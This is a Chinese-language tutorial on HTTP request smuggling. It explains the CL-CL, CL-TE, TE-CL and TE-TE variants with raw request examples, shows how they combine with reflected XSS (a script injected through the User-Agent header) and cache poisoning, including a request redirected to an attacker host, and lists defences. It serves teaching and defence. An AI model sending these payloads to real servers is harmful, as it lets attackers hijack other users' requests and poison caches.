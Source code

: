 # HTTP请求走私

HTTP 请求走私源于前端和后端服务器之间关于消息正文大小的分歧，而这种分歧可能会被滥用，从而干扰 Web 应用程序处理从用户收到请求的方式

攻击者通过在自己的请求中夹带一个请求, 来影响到下一个请求中

## 请求走私种类

### CL不为0的GET请求

当前端服务器允许GET请求携带请求体，而后端服务器不允许GET请求携带请求体，它会直接忽略掉GET请求中的 Content-Length 头，不进行处理，这就有可能导致请求走私。

举例：

    GET / HTTP/1.1
    Host: example.com
    Content-Length: 44
     
     GET /secret HTTP/1.1
    Host: example.com
    

前端服务器处理了 Content-Length ，而后端服务器没有处理 Content-Length ，基于pipeline机制认为这是两个独立的请求，就造成了漏洞的发生。

### CL-CL

根据RFC 7230，当服务器收到的请求中包含两个 Content-Length ，而且两者的值不同时，需要返回400错误，但是总有服务器不会严格的实现该规范，假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回400错误，但是中间代理服务器按照第一个Content-Length的值对请求进行处理，而后端源站服务器按照第二个Content-Length的值进行处理。这种情况下，当前后端各取不同的 Content-Length 值时，就会出现漏洞。

举例：

这个例子中a就会被带入下一个请求，变为 aGET / HTTP/1.1\r\n 。

    POST / HTTP/1.1
    Host: example.com
    Content-Length: 8
    Content-Length: 7
     
    12345
    a

例子中的a会被带入下一个请求中，变成aGET / HTTP/1.1

### CL-TE

CL-TE就是当收到存在两个请求头的请求包时，前端代理服务器只处理Content-Length这一请求头，而后端服务器会遵守RFC2616的规定，忽略掉Content-Length，处理Transfer-Encoding这一请求头。

例子

    POST / HTTP/1.1
    Host: example.com
    ...
    Connection: keep-alive
    Content-Length: 6
    Transfer-Encoding: chunked
    
    0
    
    a
    
这个例子中a同样会被带入下一个请求，变为 aGET / HTTP/1.1

### TE:CL

TE-CL指就是当收到存在两个请求头的请求包时，前端代理服务器处理Transfer-Encoding这一请求头，而后端服务器处理Content-Length请求头

举例


    Default
    POST / HTTP/1.1
    Host: xxx.xxx.com
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: session=MDCGt1IHa1MdeOnP1wkjRX15gMuiEGT6
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked
     
    12
    GPOST / HTTP/1.1
     
    0
    
chunked检测合理, 注意0\r\n\r\n是规定的结束格式, 然后后端只取12\r\n, 剩下来的东西就变成下一个请求的一部分。


### TE-TE

TE-TE指当收到存在两个请求头的请求包时，前后端服务器都处理Transfer-Encoding请求头，这确实是实现了RFC的标准。

不过前后端服务器毕竟不是同一种，这就有了一种方法，我们可以对发送的请求包中的Transfer-Encoding进行某种混淆操作，从而使其中一个服务器不处理Transfer-Encoding请求头。

从某种意义上还是CL-TE或者TE-CL。

例子

    POST / HTTP/1.1
    Host: example.com
    ...
    Content-length: 4
    Transfer-Encoding: chunked
    Transfer-encoding: cow
    
    5c
    aPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15
    
    x=1
    0

这里的情况是前端服务器以第一个TE为标准后端服务器以第二个为标准, 前端服务器通过之后, 后端服务器的TE值不存在, 就转而使用Content-Length为依据, 这个时候的情况就相当于TE-CL情况。

## 危害

### 请求走私引发反射型XSS

#### 场景举例

这个场景包含前端和后端服务器，并且前端服务器不支持Chunked-Encoding。应用程序在User-Agent这个标头含有反射型XSS漏洞。

单个的UA处的xss并没有什么危害，但当我们将它与请求走私相结合时，就可以导致其他用户访问任意界面出现反射型xss，对客户端和网页有一定影响

首先看是否能触发XSS，如果能触发，接下来进行请求走私，因为前端不支持Chunked编码方式，那么我们这里就可以尝试一下去构造CL-TE种类的请求走私，构造XSS，恶意代码如下

    Content-Length: 154
    Transfer-Encoding: chunked
    
    0
    
    GET /post?postId=5 HTTP/1.1
    User-Agent: a"/><script>alert(1)</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5
    
    x=1

第一次访问正常，接下来用户去访问界面，成功触发了XSS

这个过程是:

前端代理服务器：接收的是CL，然后检测内容没有什么问题，传输给后端服务器

后端服务器：接收的是TE，接收到0后停止接收，而下面的还没被接收，被认为是另一个独立的请求，当此时有一个用户去访问界面时，这个请求就会发出，触发XSS

---
或者利用CL-TE请求走私就可以将下一请求指向这个存在xss的地址，那结合刚刚的js文件，就可以触发xss

例子

    POST / HTTP/1.1
    Host: 目标host
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 184
    Transfer-Encoding: chunk
     
    0
     
    GET /post/next?postId=3 Http/1.1
    Host: 攻击者服务器host
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10
     
    x=1
    


### 请求走私实现Web缓存投毒

WEB缓存就是指网站的静态文件，比如图片、CSS、JS等，在网站访问的时候，服务器会将这些文件缓存起来，以便下次访问时直接从缓存中读取，不需要再次请求服务器。

但当请求中部分内容会在响应包中出现，这会存在不好的影响

比如第一个人改了一些包，发送到后端，导致后端返回一些恶意数据，xss这种等等，同时由于缓存机制，后续的其他用户访问此界面时会加载这个恶意缓存，此时就造成了Web缓存投毒。


## 防御

* 禁用后端连接重用
* 确保连接中的所有服务器具有相同的配置
* 拒绝有二义性的请求
* 使用HTTP/2
* 严格的实现RFC7230-7235中所规定的的标准

